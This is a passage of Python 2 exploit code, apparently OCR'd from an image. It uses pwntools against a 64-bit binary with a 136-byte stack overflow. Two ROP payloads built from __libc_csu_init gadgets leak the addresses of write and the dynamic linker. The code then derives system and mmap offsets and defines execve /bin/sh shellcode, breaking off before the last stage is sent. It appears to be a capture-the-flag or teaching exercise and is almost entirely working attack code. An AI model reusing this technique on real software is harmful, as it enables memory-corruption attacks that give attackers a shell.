 ```
print "got_read: " + hex(got_read)
plt_read = elf.symbols['read']
print "plt_read: " + hex(plt_read)
linker_point = 0x600ff8
print "linker_point: " + hex(linker_point)
got_pop_rax_ret = 0x0000000000023970
print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    

main = 0x400564 

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
print "off_mmap_addr: " + hex(off_mmap_addr)
off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)    

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
mmap_addr = write_addr - off_mmap_addr
print "mmap_addr: " + hex(mmap_addr)
pop_rax_ret = write_addr - off_pop_rax_ret
print "pop_rax_ret: " + hex(pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)    

linker_addr = u64(p.recv(8))
print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  

p.recvuntil("Hello, World\n")   

shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  

```